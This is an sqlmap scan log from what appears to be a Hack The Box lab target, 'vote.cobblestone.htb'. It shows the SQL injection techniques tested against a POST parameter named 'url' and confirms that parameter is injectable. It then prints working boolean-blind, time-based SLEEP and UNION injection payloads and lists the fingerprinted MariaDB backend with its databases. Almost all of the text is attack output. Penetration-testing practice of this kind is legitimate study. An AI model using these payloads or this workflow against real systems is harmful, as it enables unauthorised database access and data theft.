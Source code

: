 ```
[10:44:27] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:44:27] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[10:44:27] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[10:44:27] [WARNING] reflective value(s) found and filtering out
[10:44:27] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[10:44:27] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[10:44:27] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[10:44:27] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[10:44:27] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[10:44:27] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:44:27] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[10:44:27] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[10:44:27] [INFO] testing 'Generic inline queries'
[10:44:27] [INFO] testing 'MySQL inline queries'
[10:44:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[10:44:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[10:44:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[10:44:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[10:44:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[10:44:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[10:44:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:44:38] [INFO] POST parameter 'url' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[10:44:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:44:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:44:39] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:44:39] [INFO] target URL appears to have 5 columns in query
[10:44:40] [INFO] POST parameter 'url' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'url' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 73 HTTP(s) requests:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=test' AND 7323=7323 AND 'XFOM'='XFOM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=test' AND (SELECT 8033 FROM (SELECT(SLEEP(5)))DhKr) AND 'GzyX'='GzyX

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-1513' UNION ALL SELECT NULL,CONCAT(0x7170707871,0x6669756b4d6c7a584d47634b75644e6f42454c76497a58454243665064464a596a4c7758416f4676,0x716b6a7171),NULL,NULL,NULL-- -
---
[10:44:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:44:40] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] vote

[10:44:40] [INFO] fetched data logged to text files under '/root/.sqlmap/output/vote.cobblestone.htb'

[*] ending @ 10:44:40 /2025-10-07/
```